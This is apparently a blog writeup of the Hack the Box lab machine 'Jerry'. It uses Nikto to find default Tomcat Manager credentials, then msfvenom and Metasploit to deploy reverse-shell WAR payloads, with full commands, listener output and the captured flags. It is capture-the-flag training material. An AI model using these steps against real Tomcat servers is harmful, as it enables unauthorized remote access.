 ```yaml
---
title: "Hack the box - Jerry"
date: 2018-07-18T20:08:47+02:00
draft: false
toc: true
---
```


This is my writeup of the Hack the Box machine [Jerry](https://www.hackthebox.com/machines/jerry).

I used Nikto for enumeration and `msfvenom` to get a reverse shell. The revere shell was unstable, so I used Meterpreter to get a more reliable foothold.

## Enumeration

The [nmap scan](nmap_scan.txt) showed a Tomcat instance, remote desktop port (3389) among other open ports.

I had no luck in getting access to the remote desktop port.

And unfortunately, the Tomcat required credentials.

The version was 7.0.88 of which there existed an exploit for privilege escalation, but this only local, not remote.

Since this was a web-server, maybe Nikto could help.

```shell
trickmask@kali:~$ nikto -h 10.10.10.95:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2018-07-17 20:03:53 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
[snip]
+ OSVDB-3233: /a/: May be Kebi Web Mail administration menu.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
[snip]
```

It found something on the `/a/` endpoint. Opening it up only displayed an empty page.

It found `Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret')`. Score!

This gave access to uploading/deploying `.war` files from <http://10.10.10.95:8080/manager/html>.

## Exploit

How to get reverse shell? This is a Windows box, so we don't have the `nc` utility.

I ended up using Metasploit to generate a reverse-shell to my machine.

I got the generation script from the archive at http://netsec.ws/?p=331.

```shell
$ msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o shell.war
```

I deployed `shell.war` in Tomcat, opened a listening socket on my machine `nc -lvp 44332`, and then activated the exploit by visiting the application at <http://10.10.10.95:8080/shell/>, and it connected back!
I found the flags on the desktop.

```batchfile
trickmask@kali:~/Desktop$ nc -lvp 44332
listening on [any] 44332 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.95] 49264
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```

## Exploit using Metepreter payload

Annoyingly the shell was rather unstable. Somewhat randomly it dropped the connection (mostly after I mistyped something). I've heard about Metepreter before, and wanted to try that out.

Using `msfvenom --list | grep meterpreter` I could find the payload I could use: `windows/x64/meterpreter_reverse_tcp`.

I generated the reverse shell `.war` file:

```shell
$ msfvenom \
-p windows/x64/meterpreter_reverse_tcp  \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o meterpreter.war \
--platform windows \
--arch x64
```

And deployed `meterpreter.war` in Tomcat.

Set up the handler (in `msfconsole`)

```shell
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter_reverse_tcp
msf > set LHOST 10.10.15.234
msf > set LPORT 44332
msf > exploit

[*] Started reverse TCP handler on 10.10.14.234:44332
```

Activated exploit by visiting <http://10.10.10.95:8080/meterpreter/>, and watched as I get a Meterpreter session from which I could launch a shell:

```batchfile
[*] Meterpreter session 4 opened (10.10.14.234:44332 -> 10.10.10.95:49278) at 2018-07-18 16:22:48 +0200

meterpreter > shell
Process 2908 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```
